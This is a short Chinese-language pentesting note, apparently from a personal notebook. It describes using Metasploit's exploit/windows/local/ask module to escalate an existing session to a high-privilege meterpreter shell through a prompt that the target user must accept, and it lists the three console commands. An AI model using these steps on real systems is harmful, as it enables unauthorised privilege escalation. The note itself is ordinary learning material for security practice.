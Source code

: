 ‍

​![image](assets/image-20241028195059-4m0rorx.png)​

‍

#### 美少妇的RunAs模块

> **缺点：这个会出现弹窗--表示有人在黑你**
>
> 使用 exploit/windows/local/ask 模块，创建一个可执行文件  
> 目标机器会运行一个发起提升权限请求的程序，提示用户是否要继续运行  
> 如果用户选择继续运行程序，就会返回一个高权限的meterpreter shell

##### 步骤

使用exploit/windows/local/ask 模块

```bash
use exploit/windows/local/ask
set session 7
run
```

​![image](assets/image-20241028195443-e5i1ad0.png)​
